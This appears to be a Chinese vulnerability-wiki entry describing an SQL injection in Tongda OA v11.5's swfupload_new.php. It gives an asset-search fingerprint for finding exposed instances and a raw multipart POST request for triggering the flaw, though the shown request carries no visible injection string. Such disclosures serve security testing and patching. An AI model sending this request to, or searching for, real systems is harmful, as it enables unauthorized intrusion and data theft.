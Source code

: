 # 通达OA v11.5 swfupload_new.php SQL注入漏洞

## 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>通达OA v11.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628302741339-9c544321-2209-42e7-9401-d7959a3105fc.png)

发送请求包触发漏洞

```php
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 355
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

![img](/assets/PeiQi-Wiki/img/1628302774880-77e8dde6-9700-4b8c-aa80-d5eebd471398.png)



若有收获，就点个赞吧